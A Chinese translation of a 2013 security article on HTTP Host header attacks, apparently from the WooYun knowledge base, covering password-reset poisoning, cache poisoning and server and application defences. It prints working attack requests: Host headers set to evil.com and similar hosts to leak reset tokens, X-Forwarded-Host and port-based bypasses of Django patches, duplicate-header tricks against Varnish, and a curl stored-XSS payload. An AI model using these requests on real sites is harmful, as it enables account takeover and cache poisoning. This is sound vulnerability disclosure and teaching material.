

# 利用 HTTP host 头攻击的技术

2014/04/09 17:40 | [龙臣](http://drops.wooyun.org/author/龙臣 "由 龙臣 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from:[`www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html`](http://www.skeletonscribe.net/2013/05/practical-http-host-header-attacks.html)

## 0x00 背景

* * *

一般通用 web 程序是如果想知道网站域名不是一件简单的事情，如果用一个固定的 URI 来作为域名会有各种麻烦。开发人员一般是依赖 HTTP Host header（比如在 php 里是`_SERVER["HTTP_HOST"]` ），而这个 header 很多情况下是靠不住的。而很多应用是直接把这个值不做 html 编码便输出到了页面中，比如：

```
<link href="http://_SERVER['HOST']"    (Joomla) 
```

还有的地方还包含有 secret key 和 token，

```
<a href="http://_SERVER['HOST']?token=topsecret">  (Django, Gallery, others) 
```

这样处理问题一般会很容易遭遇到两种常见的攻击：缓存污染和密码重置。缓存污染是指攻击者通过控制一个缓存系统来将一个恶意站点的页面返回给用户。密码重置这种攻击主要是因为发送给用户的内容是可以污染的，也就是说可以间接的劫持邮件发送内容。

## 0x01 密码重置污染攻击

* * *

拿 [Gallery](http://galleryproject.org/) 这个站来做例子。当我们进行密码重置的时候，网站会给我们发送一个随机的 key：

```
$user -> hash = random::hash() ;

$message -> confirm_url = url::abs_site("password/do_reset?key=$user->hash") ;

```

当用户点击重置密码的链接时，肯定可以说明点的是自己的账户。



这个地方的漏洞是： `url::abs_site` 这一部分使用的 Host header 是来自用户重置密码的请求，那么攻击者可以通过一个受他控制的链接来污染密码重置的邮件。

```
> POST /password/reset HTTP/1.1
> Host: evil.com
> ...
> csrf=1e8d5c9bceb16667b1b330cc5fd48663&name=admin 
```

这个漏洞在 Django，Piwik 和 Joomla 中都存在，还有一些其他的应用，框架和类库。

当然这种攻击方式一定要能骗取用户点击访问这个受污染的链接，如果用户警觉了没有点击，那么攻击就会失败。当然你自己也可以配合一些社会工程学的方法来保证攻击的成功率。

还有一些情况，Host 可能会被 url 编码后直接放到 email 的 header 里面造成 header 注入。通过这个，攻击者可以很容易的就能劫持用户的账户。

## 0x02 缓存污染

* * *

通过 Host header 来污染缓存的攻击方法最初是 Carlos Beuno 在 2008 年提出来的。但是在现在的网络架构中，这种攻击还是比较困难的，因为现在的缓存设备都能够识别 Host。比如对于下面的这两种情况他们绝对不会弄混淆：

```
> GET /index.html HTTP/1.1       > GET /index.html HTTP/1.1
> Host: example.com              > Host: evil.com 
```

因此为了能使缓存能将污染后的 response 返回给用户，我们还必须让缓存服务器看到的 host header 和应用看到的 host header 不一样。比如说对于 Varnish（一个很有名的缓存服务软件），可以使用一个复制的 Host header。Varnish 是通过最先到达的请求的 host header 来辨别 host 的，而 Apache 则是看所有请求的 host，Nginx 则只是看最后一个请求的 host。这就意味着你可以通过下面这个请求来欺骗 Varnish 达到污染的目的：

```
> GET / HTTP/1.1
> Host: example.com
> Host: evil.com 
```

应用本身的缓存也可能受到污染。比如 Joomla 就将取得的 host 值不经 html 编码便写进任意页面，而它的缓存则对这些没有任何处理。比如可以通过下面的请求来写入一个存储型的 xss：

```
curl -H "Host: cow\"onerror='alert(1)'rel='stylesheet'" http://example.com/ | fgrep cow\" 
```

实际上的请求是这样的：

```
> GET / HTTP/1.1
> Host: cow"onerror='alert(1)'rel='stylesheet' 
```

响应其实已经受到污染：

```
<link href="http://cow"onerror='alert(1)'rel='stylesheet'/" rel="canonical"/> 
```

这时只需要浏览首页看是否有弹窗就知道缓存是否已经被污染了。

## 0x03 安全的配置

* * *

在这里我假设你可以通过任何类型的应用来发起一个 http 请求，而 host header 也是可以任意编辑的。虽然在一个 http 请求里，host header 是用来告诉 webserver 该请求应该转发给哪个站点，但是事实上，这个 header 的作用或者说风险并不止如此。

比如如果 Apache 接收到一个带有非法 host header 的请求，它会将此请求转发给在 httpd.conf 里定义的第一个虚拟主机。因此，Apache 很有可能将带有任意 host header 的请求转发给应用。而 Django 已经意识到了这个缺陷，所以它建议用户另外建立一个默认的虚拟主机，用来接受这些带有非法 host header 的请求，以保证 Django 自己的应用不接受到这些请求。

不过可以通过 X-Forwarded-Host 这个 header 就可以绕过。Django 非常清楚缓存污染的风险，并且在 2011 年的 9 月份就通过默认禁用 X-Forwarded-Host 这个 header 来修复此问题。Mozilla 却在 addons.mozilla.org 站点忽视了此问题，我在 2012 年的 4 月发现了此问题：

```
> POST /en-US/firefox/user/pwreset HTTP/1.1
> Host: addons.mozilla.org
> X-Forwarded-Host: evil.com 
```

即使 Django 给出了补丁，但是依然存在风险。Webserver 允许在 host header 里面指定端口，但是它并不能通过端口来识别请求是对应的哪个虚拟主机。可以通过下面的方法来绕过：

```
> POST /en-US/firefox/user/pwreset HTTP/1.1
> Host: addons.mozilla.org:@passwordreset.net 
```

这直接会导致生成一个密码重置链接：
[`addons.mozilla.org:@passwordreset.net/users/pwreset/3f6hp/3ab-9ae3db614fc0d0d036d4`](https://addons.mozilla.org:@passwordreset.net/users/pwreset/3f6hp/3ab-9ae3db614fc0d0d036d4)

当用户点击这个链接的时候就会发现，其实这个 key 已经被发送到 passwordreset.net 这个站点了。在我报告了此问题后，Django 又推出了一个补丁：[`www.djangoproject.com/weblog/2012/oct/17/security/`](https://www.djangoproject.com/weblog/2012/oct/17/security/)

不幸的是，这个补丁只是简单的通过黑名单方式来简单的过滤掉了@和其他一些字符。而由于密码重置链接是以纯文本而不是 html 的方式发送的，所以此补丁只需要添加一个空格就可以绕过：

```
> POST /en-US/firefox/users/pwreset HTTP/1.1
> Host: addons.mozilla.org: www.securepasswordreset.com 
```

Django 的后续补丁规定了 host header 的端口部分只能是含有数字，以规避此问题。但是在 RFC2616 文档中规定了，如果请求 URI 是一个绝对的 URI，那么 host 是 Request-URI 的一部分。在请求中的任何 Host header 值必须被忽略。

也就是说，在 Apache 和 Nginx（只要是遵守此文档的 webserver）中，可以通过绝对 uri 向任意应用发送一个包含有任意 host header 的请求：

```
> POST https://addons.mozilla.org/en-US/firefox/users/pwreset HTTP/1.1
> Host: evil.com 
```

这个请求在 SERVER_NAME 里面的值是 addons.mozilla.org，而不是 host 里的 evil.com。应用可以通过使用 SERVER_NAME 而不是 host header 来规避此风险，但是如果没有配合特殊配置的 webserver，这个风险依然存在。可以在这里[`stackoverflow.com/questions/2297403/http-host-vs-server-name/2297421#2297421`](http://stackoverflow.com/questions/2297403/http-host-vs-server-name/2297421#2297421)看看 HTTP_HOST 和 SERVER_NAME 的区别。Django 官方在 2013 年的二月通过强制使用一个 host 白名单来修复了此问题。尽管如此，在很多其他的 wen 应用上，这种攻击方式依然屡试不爽。

## 0x04 服务器方面需要做的

* * *

由于 http 请求的特点，host header 的值其实是不可信的。唯一可信的只有 SERVER_NAME，这个在 Apache 和 Nginx 里可以通过设置一个虚拟机来记录所有的非法 host header。在 Nginx 里还可以通过指定一个 SERVER_NAME 名单，Apache 也可以通过指定一个 SERVER_NAME 名单并开启 UseCanonicalName 选项。建议两种方法同时使用。

Varnish 很快会发布一个补丁。在官方补丁出来前，可以通过在配置文件里加入：

```
import std;

        sub vcl_recv {
                std.collect(req.http.host);
        } 
```

来防护。

## 0x05 应用本身需要做的

* * *

解决这个问题其实是很困难的，因为没有完全自动化的方法来帮助站长识别哪些 host 的值是值得信任的。虽然做起来有点麻烦，但是最安全的做法是：效仿 Django 的方法，在网站安装和初始化的时候，要求管理员提供一个可信任的域名白名单。如果这个实现起来比较困难，那至少也要保证使用 SERVER_NAME 而不是 host header，并且鼓励用户使用安全配置做的比较好的站点。

版权声明：未经授权禁止转载 [龙臣](http://drops.wooyun.org/author/龙臣 "由 龙臣 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [雅虎某分站的 XSS 导致雅虎邮箱沦陷](http://drops.wooyun.org/papers/1024)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [浏览器安全（一）](http://drops.wooyun.org/papers/526)
*   [Perl 数据类型安全研究【翻译】](http://drops.wooyun.org/papers/4505)
*   [分析下难得一见的 ROR 的 RCE（CVE－2013－0156）](http://drops.wooyun.org/papers/61)